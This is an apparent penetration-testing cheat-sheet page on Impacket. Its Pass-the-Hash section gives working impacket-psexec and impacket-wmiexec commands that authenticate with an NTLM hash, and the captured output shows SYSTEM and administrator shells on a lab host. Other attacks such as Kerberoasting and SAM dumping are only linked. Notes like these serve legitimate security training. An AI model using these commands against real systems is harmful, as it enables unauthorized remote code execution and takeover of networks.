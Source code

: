 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Impacket

## Pass-the-Hash

> [_NetExec_](netexec-cme.md) _also uses `impacket-psexec` to perform the_ [_PtH attack_](netexec-cme.md#rce)_._

`impacket-psexec` searches for a writable share and uploads an executable file to it. Then it registers the executable as a Windows service and starts it which results in RCE. It requires two arguments:

1. `hashes`: allows us to use NTLM hashes to authenticate to the target. The format is `LMHash:NTHash`, in which we specify the `Administrator`'s NTLM hash after the colon (the `LMHash` part can be left empty).
2. `username@IP`: the target definition.

> _At the end of the command we could specify another argument, which is used to determine which command psexec should execute on the target system. If we leave it empty, `cmd.exe` will be executed, providing us with an interactive shell as `SYSTEM`. We can also use one of the other impacket scripts like `wmiexec.py` to obtain a shell as the user we used for authentication._

{% tabs %}
{% tab title="SYSTEM Shell" %}
{% code overflow="wrap" %}
```bash
# SYSTEM shell
$ impacket-psexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 192.168.233.212.....
[*] Found writable share ADMIN$
[*] Uploading file WIKgrLbX.exe
[*] Opening SVCManager on 192.168.233.212.....
[*] Creating service iVBP on 192.168.233.212.....
[*] Starting service iVBP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
{% endcode %}
{% endtab %}

{% tab title="Administrator Shell" %}
{% code overflow="wrap" %}
```bash
# Administrator shell
$ impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
files02\administrator
```
{% endcode %}
{% endtab %}
{% endtabs %}

## AS-REPRoasting

See how to use `impacket-GetNPUsers` [here](../../tl-dr/active-directory/attacks/asreproasting.md#windows).

## Kerberoasting

See how to use `impacket-GetUserSPNs` [here](../../tl-dr/active-directory/attacks/kerberoasting.md#attack).

## NTMLv2 Relay

See how to use `impacket-ntlmrelayx` [here](../../tl-dr/active-directory/attacks/ntlmv2.md#ntmlv2-relay).

## Local SAM Dump

See how to use `impacket-secretsdump` [here](impacket.md#local-sam-dump).
